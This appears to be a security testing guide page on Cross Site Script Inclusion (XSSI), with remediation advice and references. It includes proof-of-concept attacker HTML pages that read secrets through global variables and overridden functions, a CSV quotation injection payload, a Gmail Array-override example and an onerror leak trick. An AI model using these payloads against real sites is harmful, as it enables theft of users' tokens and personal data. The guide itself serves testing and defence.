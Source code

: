 # Summary

Cross Site Script Inclusion (XSSI) vulnerability allows sensitive data leakage across-origin or cross-domain boundaries. Sensitive data could include authentication related data (login states, cookies, auth tokens, session IDs, etc.), user personal or sensitive personal data (email addresses, phone numbers, credit card details, social security numbers, etc.). XSSI is a client-side attack similar to Cross Site Request Forgery (CSRF) but they have a different purpose: CSRF uses the authenticated user context to execute certain state-changing actions inside a victim’s page (eg. transfer money to the attacker's account, modify privileges, reset password, etc.) and an XSSI attack uses JavaScript on the client side to leak sensitive data from authenticated sessions.

By default websites are only allowed to access data if they are from the same origin. This is a key application security principle and governed by the same-origin policy (defined by RFC 6454 [1]). An origin is defined as the combination of URI scheme (http/https), host name, and port number. However, this policy is bypassed/not appliable for <SCRIPT> HTML tag inclusions. This exception is necessary, without it websites would not be able to consume third party services, traffic analysis or advertisement platforms, etc.

When the browser opens a website the <SCRIPT> resources are fetched from the cross-origin domain and they run in the same context as the including site/browser which presents the opportunity to leak sensitive data. This is in most cases JavaScript however the SCRIPT SRC entity doesn't have to be a JavaScript file or be served with text/javascript or .js extension. Some browsers are lenient and only block if it is served with an image type (image/), a video type (video/), an audio (audio/*) type, or text/csv [10].

Old browser version vulnerabilities (IE9/10) allowed data leakage via JavaScript error messages at runtime but those vulnerabilties have now been patched by vendors and are considered not as relevant. By setting the charset attribute of the <SCRIPT> tag the attacker/tester can enforce UTF-16 encoding which allows data leakage for other data formats (eg JSON). If you want to learn more about these please read Takeshi Terada: Identifier based XSSI attacks MBSD Technical Whitepaper [8].

The following XSSI vulnerability cases will be discussed:

1. Leak sensitive data via global variables
2. Leak sensitive data via global function parameters
3. Leak sensitive data via non-JavaScript resource - CSV with quotations theft
4. Leak sensitive data via JavaScript runtime errors

## Example - Leak Sensitive Data via Global Variables

1. An API key is stored in a JavaScript file with the URI https://victim.com/internal/api.js on the victim's website (victim.com) which is only accessible for authenticated users. The attacker/tester configures a website (attackingwebsite.com) and uses the <script> tag to refer to this JavaScript file in question.

api.js contents:
```
(function() {
  window.secret = "supersecretUserAPIkey";
})();
```

2. The attacker/tester has configured a website (attackingwebsite.com) with the following content:

index.html contents:
```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global variables</title>
  </head>
  <body>
    <h1>Leaking data via global variables</h1>
    <script src="https://victim.com/internal/api.js"></script>
    <div id="result">
    </div>
    <script>
      var div = document.getElementById("result");
      div.innerHTML = "Your secret data <b>" + window.secret + "</b>"; 
    </script>
  </body>
</html>
```

3. The attacker lures the user to attackingwebsite.com either via social engineering, phishing emails, etc. This step requires the user to authenticate first to victim.com before visiting attackingwebsite.com.

4. The user's browser fetches the api.js and the sensitive data is leaked via the global JavaScript variable. 

## Example - Leak Sensitive Data via Global Function Parameters

This example is similar to the previous one except in this case attackingwebsite.com uses a global JavaScript function to extract the sensitive data by overwriting the victim's global JavaScript function.

index.html contents:
```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global function parameters 1</title>
  </head>
  <body>
    <div id="result">
    </div>
    <script>
      function globalFunction(param) {
        var div = document.getElementById("result");
        div.innerHTML = "Your secret data: <b>" + param + "</b>";
      }
    </script>
    <script src="https://victim.com/internal/api.js"></script>
  </body>
</html>
```

api.js contents:
```
(function() {
  var secret = "supersecretAPIkey";
  window.globalFunction(secret);
})();
```

There are other XSSI vulnerabilities leaking sensitive data either via JavaScript prototype chains or global function calls. If you want to learn more about these please visit Sebastian Leike's page [4].

## Example - Leak Sensitive Data via Non-Javascript Resource - CSV with Quotations Theft

To leak data the attacker/test has to be able to inject JavaScript code into the CSV data. The following example is an excerpt from Takeshi Terada's identifier basedXSSI attacks whitepaper [8]:

```
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: xxxx

1,"___","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"___","zzz@example.com","03-0000-0099"
```

In this case using the ___ parts as injection points and inserting the \"",$$$=function(){/* string has the following result:

```
1,"\"",$$$=function(){/*","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"*/}//","zzz@example.com","03-0000-0099"
```

Gmail had a similar vulnerability in 2006 that allowed the extraction of user contacts in JSON[11]. In this case the data was received from Gmail and parsed by the browser JavaScript engine using an unreferenced Array constructor to leak the data. The attacker/tester could access this Array by defining and overwriting the internal Array constructor like this:

```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking gmail contacts via JSON </title>
  </head>
  <body>
    <script>
      function Array() {
        // steal data
      }
    </script>
    <script src="http://mail.google.com/mail/?_url_scrubbed_"></script>
  </body>
</html>
```

## Example - Leak Sensitive Data via Javascript Runtime Errors

Browsers normally present a standardized Javascript error message like "Script error.". However, in the case of IE9/10 runtime error messages provided additional details which could be used to leak data. For example, a website (victim.com) serves the following content at the URI http://victim.com/service/csvendpoint for authenticated users:

```
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: 13

1,abc,def,ghi
```

This vulnerability could be exploited with the following:

```
<!--error handler -->
<SCRIPT>window.onerror = function(err) {alert(err)}</SCRIPT>
<!--load target CSV -->
<SCRIPT src="http://victim.com/service/csvendpoint"></SCRIPT>
```

When the browser tries to render the CSV content as JavaScript it fails and leaks the sensitive data:

![JavaScript runtime error message ](../images/XSSI1.jpeg)

## How to Test
### Black Box Testing

The methodology has the following steps:
1. Identify which endpoints are responsible for sending sensitive data, what parameters are required, and identify all relevant dynamically and statically generated JavaScript responses using authenticated user sessions. Pay special attention to sensitive data sent using JSONP. To find dynamically generated JavaScript responses generate authenticated and unauthenticated requests and compare/diff them. If they're different then the response is dynamic otherwise it's static. To simplify this task you can use Veit Hailperin's web proxy plugin [2] for Burp proxy. Make sure to check other filetypes: XSSI is not limited to JavaScript files and is much more widespread.

2. Investigate if the sensitive data can be leaked using JavaScript either using:
- Global variables.
- Global functions and parameters.
- Using an old version of browser intentionally and exploiting the JavaScript runtime error vulnerability to leak data.

### Gray Box Testing

The methodology is similar with the exception of the attacker/tester may have access to the source code to review.

# Remediation

1. Don't put sensitive user data in Javascript responses and avoid JSONP if possible. 
2. Use correct Content-Type headers with appropriate charset defined.
3. Use the "X-Content-Type-Options: nosniff" in the response header which causes browsers to reject CSV and other data with non-script MIME type designation when they are loaded as JavaScript.
4. Use Anti-Cross-Site Request Forgery Tokens.
5. Developers can either include an unparsable content to the beginning of the response (eg. an uncatchable exception) to cause runtime compile errors. This approach assumes that runtime errors cannot be leaked via browser vulnerabilities.
6. Strict referrer checking (error-prone)
7. Dynamic inline scripts are not prone to XSSI however will cause issues if you plan to use Content Security Policy (CSP).

# References

1. [RFC 6454: The Web Origin Concept](https://tools.ietf.org/html/rfc6454)
2. [W3schools - JSONP](https://www.w3schools.com/js/js_json_jsonp.asp)
3. [Wikipedia - JSONP](https://en.wikipedia.org/wiki/JSONP)
4. [Sebastian Lekies - Leaking Data Across Origins Via Dynamic Script Includes ](http://sebastian-lekies.de/leak/)
5. [Veit Hailperin - Cross-Site Script Inclusion](https://www.scip.ch/en/?labs.20160414)
6. [Sebastian Lekies / Ben Stock: Your Script in My Page: What Could Possibly Go Wrong?](https://www.owasp.org/images/f/f3/Your_Script_in_My_Page_What_Could_Possibly_Go_Wrong_-_Sebastian_Lekies%2BBen_Stock.pdf)
7. [Sebastian Lekies, Ben Stock, Martin Wentzel and Martin Johns - Unexpected Dangers of Dynamic JavaScript](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf)
8. [Takeshi Terada: Identifier based XSSI attacks (MBSD Technical Whitepaper)](https://www.mbsd.jp/Whitepaper/xssi.pdf)
9. [Veit Hailperin: The Tale of a Fameless but Widespread Vulnerability](https://www.owasp.org/images/9/9a/20160607-xssi-the_tale_of_a_fameless_but_widepsread_vulnerability-Veit_Hailperin.pdf)
10. [HackerOne XSSI – Stealing Multi Line Strings](https://blog.cm2.pw/h1-xssi/)
11. [Jeremiah Grossman blog - Advanced Web Attack Techniques using GMail](https://blog.jeremiahgrossman.com/2006/01/advanced-web-attack-techniques-using.html)
12. [A Codelab by Bruce Leban, Mugdha Bendre, and Parisa Tabriz](https://google-gruyere.appspot.com/part3#3__cross_site_script_inclusion)

# Tools

1. [OWASP Zed Attack Proxy Project](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)
2. [Veit Hailperin - Detect Dynamic JavaScript](https://github.com/luh2/DetectDynamicJS/blob/master/DetectDynamicJS.py)
